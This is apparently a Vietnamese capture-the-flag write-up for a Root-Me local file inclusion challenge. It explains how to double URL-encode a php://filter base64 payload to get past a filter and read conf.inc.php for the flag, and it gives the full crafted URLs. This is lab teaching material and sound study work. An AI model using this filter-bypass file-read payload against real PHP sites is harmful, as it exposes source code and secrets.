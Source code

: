 # Local File Inclusion - Double encoding

- 30 Points  

- Include can be dangerous

- No hints

# Overview:

![image](https://user-images.githubusercontent.com/115911041/229867328-8eca7f32-7935-45ff-a99e-2c6131de8847.png)

Theo đề bài nói ta cần phải double encode filepath để tránh bị phát hiện.

# Solution:

| Char | simple encoding | double encoding |
| :---:|      :---:      |      :---:      |
| :    | :3A             | : %253A         |
| /	   | : 2F	           | : %252F         |
| .	   | : 2E	           | : %252E         |
| -	   | : 2D	           | : %252D         |
| =	   | : 3D	           | : %253D         |
| <    | : 3C            | : %253C         |
| >    | : 3E            | : %253E         |

Chúng ta sử dụng payload `php://filter` với [base64 encoding](https://www.base64decode.org/). Các payload tham khảo [tại đây](https://github.com/payloadbox/rfi-lfi-payload-list)

`php://filter/convert.base64-encode/resource=cv`

Sau đó double encoding

`php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dcv`

Ta có thể encode cả URL

`http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dcv`

Ta được kết quả là 1 chuỗi kí tự dài.Copy chuỗi đó vào Base64 encoded ta được

`<?php include("conf.inc.php"); ?>`

Nhận thấy có lệnh `include()` vậy chắc chắc flag nằm trong `conf.inc.php` 

`http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf`

Kết quả ta nhận được là 1 chuỗi dài như lúc trước. Tiếp tục base64 encoded, ta có được flag

![image](https://user-images.githubusercontent.com/115911041/229880520-032057ad-7f3d-496e-917e-e07cdfc600d9.png)
